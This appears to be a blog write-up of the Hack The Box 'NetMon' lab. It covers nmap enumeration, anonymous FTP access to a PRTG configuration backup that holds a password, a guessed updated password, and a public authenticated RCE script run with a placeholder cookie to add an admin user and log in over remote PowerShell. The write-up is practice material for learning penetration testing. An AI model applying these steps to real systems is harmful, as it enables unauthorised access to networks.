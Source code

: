 ```yaml
---
title: "HTB - NetMon"
date: 2021-02-12T14:56:25+01:00
categories: ["hacking", "write-ups"]
tags: [HTB]
featuredImage: "/images/2021/02/NetMon_Logo.png"
---
```

An easy box according to HTB ranking and a not so easy one according to [this site](https://docs.google.com/spreadsheets/u/1/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/htmlview#). For me, it was really painful. Let me overshare!

## Recon

Quick recon based on HTB logo and info :

* Windows box ;
* Misc info : web, PowerShell, file misconfiguration ;
* Probably runs PRTG NetWork Monitor tool.

## Enum

```text
sudo nmap -T4 -A -p- -oA nmap $target_ip
```
```text
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-12 15:25 CET
Nmap scan report for $target_ip
Host is up (0.056s latency).
Not shown: 65522 closed ports
PORT      STATE SERVICE      VERSION
21/tcp    open  ftp          Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-02-19  11:18PM                 1024 .rnd
| 02-25-19  09:15PM       <DIR>          inetpub
| 07-16-16  08:18AM       <DIR>          PerfLogs
| 02-25-19  09:56PM       <DIR>          Program Files
| 02-02-19  11:28PM       <DIR>          Program Files (x86)
| 02-03-19  07:08AM       <DIR>          Users
|_02-25-19  10:49PM       <DIR>          Windows
| ftp-syst:
|_  SYST: Windows_NT
80/tcp    open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-server-header: PRTG/18.1.37.13946
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-trane-info: Problem with XML parsing of /evox/about
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=2/12%OT=21%CT=1%CU=31327%PV=Y%DS=2%DC=T%G=Y%TM=6026908
OS:3%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10B%TI=I%CI=I%II=I%TS=A)SEQ
OS:(SP=105%GCD=1%ISR=10B%TI=I%CI=I%II=I%SS=S%TS=A)OPS(O1=M54DNW8ST11%O2=M54
OS:DNW8ST11%O3=M54DNW8NNT11%O4=M54DNW8ST11%O5=M54DNW8ST11%O6=M54DST11)WIN(W
OS:1=2000%W2=2000%W3=2000%W4=2000%W5=2000%W6=2000)ECN(R=Y%DF=Y%T=80%W=2000%
OS:O=M54DNW8NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=Y%DF=Y%
OS:T=80%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=Y%T=80%W=0%S=Z%A=O%F=AR%O=%RD
OS:=0%Q=)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=80%W=0%S
OS:=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R
OS:=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=80%IPL=164%UN=0%
OS:RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD=Z)

Network Distance: 2 hops
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2021-02-12T14:28:15
|_  start_date: 2021-02-12T14:02:36

TRACEROUTE (using port 8888/tcp)
HOP RTT      ADDRESS
1   59.00 ms 10.10.14.1
2   59.12 ms $target_ip

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 152.62 seconds
```
We find a few interesting services :

* FTP server (21/tcp) : Microsoft ftpd, with anonymous login enabled ;
* Web server (80/tcp) : Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor) ;
* Remote powershell (5985/tcp) ;
* SMB and Netbios related services on ports 135/tcp, 139/tcp and 445/tcp ;
* HTTPAPI httpd 2.0 (SSDP/UPnP) on 47001/tcp ;
* Several high ports fo RPC.

Nikto scan reveals `PRTG` version `18.1.37.13946`, and the webpage displays a login page.

![Netmon Login](/images/2021/02/NetMon_PRTG_Login.png)

Default and common credentials won't work here.

Looking up `PRTG` on `searchploit` won't give us much : an authenticated RCE and a DoS exploit... and yes it works! But as fas I know, it is useless in our case. It means we'll have to dig deeper. Before that, let's continue to sratch the surface for other services, we are looking for an easy win! :)

We can also enumerate smb shares :

```text
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse $target_ip
```
but nothing comes up!

Let's explore the FTP server. Here, we have access to quite a lot of files such as :

* Program Files ;
* Program Files (x86) (we now know that our OS is 64 bits) ;
* Users, Windows, Inetpub, etc.

In the `Users\Public` folder we will find our user flag.

![NetMon User Flag](/images/2021/02/NetMon_user_flag.png)

Now, I am guessing that the most relevant folder will be `/Program Files (x86)/PRTG Network Monitor` in which we might find usefull info such as installation logs, and maybe even credentials if we are super lucky.

So far, we haven't found much... My guess is still with PRTG logs or sometthing similar. I will then explore PRTG folder for antything intesresting, and also common places we might have access to.

In order to make exploration more easier, I am using `FileZilla`.

## Exploitation

Enumerating username in the "Forgot password" page, tells us that the default `ptrgadmin` user exists :

![NetMon Forgot Password OK](/images/2021/02/NetMon_forgot_pass_OK.png)

Notice the slightly different error message when testing with a fake username (username == `zjdpdjpo`) :

![NetMon Forgot Password NOK](/images/2021/02/NetMon_forgot_pass_NOK.png)

While researching on internet where PRTG stores its credentials, I came across a few pages where it seems that our version leaks clear text password in the `ProgramData` folder. Now, I tried to access this folder from my FTP client and could't do it... I have been stuck here for HOURS! So I cheated, and checked official walkthrough. It turns out, I made a typo... and one can access the said folder and get some juicy files, especially `PRTG Configuration.old.bak`. Inside this file, we'll find Graal (or, do we?) :

![NetMon Credentials](/images/2021/02/NetMon_credentials.png)

Once agan, and I have no idea why this time (probably another typo?) I also went stuck for too long. The password in the backup file ends in 2018, but unfortunately it doesn't work. One can assume it is an old password, and the year has changed, so has the password. Hence, I tried to replace the year with 2019, 2020, 2021 and even 2022 (current year + 1)... Nothing worked... I was really feeling down and cheated, again. It happens that the second password I tested was the correct one! I tried it again, and this time, it worked and I was finally inside the admin panel!

Now that we are authenticated, it is finally time to check our [Authenticated RCE we found earlier](https://www.exploit-db.com/exploits/46527).

We need to grab our authenticated cookie, `Burp Suite` can do that easily, then run the following command :

```text
./prtg-exploit.sh -u http://$target_ip -c "_ga=GA1.4.XXXXXXX.XXXXXXXX; _gid=GA1.4.XXXXXXXXXX.XXXXXXXXXXXX; OCTOPUS1813713946=XXXXXXXXXXXXXXXXXXXXXXXXXXXXX; _gat=1"
```
Once it is done, the script should have created a new admin user called `pentest`.

Now, remember we also found a remote powershell running? Time to use it! I found that using a Powershell's docker was pretty easy :

```text
docker run -it  quickbreach/powershell-ntlm
```

From here, we connect to our remote machine :

```text
Enter-PSsession -ComputerName $target_ip -Authentication Negotiate -Credential pentest
```

One we are in, we simply browse to the flag dir and display it :

![NetMon Root Flag](/images/2021/02/NetMon_root_flag.png)

## Conclusion

While everything seemed pretty straightforward I spent way more time than I care to admit for stupid mistakes on my side. Which in the end made it a very exhausting box for me. Once again, we saw how nasty a few misconfiguration + CVE can be!


